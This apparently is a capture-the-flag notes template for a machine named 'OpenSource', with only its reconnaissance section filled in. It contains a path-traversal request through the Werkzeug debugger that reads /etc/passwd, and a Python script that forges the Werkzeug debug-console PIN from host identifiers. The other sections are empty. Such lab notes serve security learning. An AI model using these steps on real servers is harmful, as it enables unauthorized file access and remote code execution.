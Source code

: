 


# <span style="color:[COLOR]">Machine #27 OpenSource</span>  



## <span style="color:[COLOR]">Checklist 🤓   



<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* `'/app/public/uploads/'`.
* The backend is Python.
* It's opensource (obviously).
* I have the code.
* It shows me an error when I press upload without supplying any file.
* I think I can see the error because DEBUG mode is true.
* The upload page seems to be using `Werkzeug`.
* I think we're in a testing environment (Not sure) in the demo that they provided.
* There are two methods `get_file_name` and `get_unique_file_name` and only the first one is being used.
* What the hell is this!   
```html
   <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "QNJYyPKHPwUQu1DNLaas";
    </script>
```

```
GET /upcloud?__debugger__=yes&cmd=resource&f=../../../../../../../../etc/passwd
```
  
* The code that might get me the pin of the console  
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```  
* I need to generate the PIN but I don't have the username of the user who created the flask process and I also need other info that I should get through some kind of a directory traversal.

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀

<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->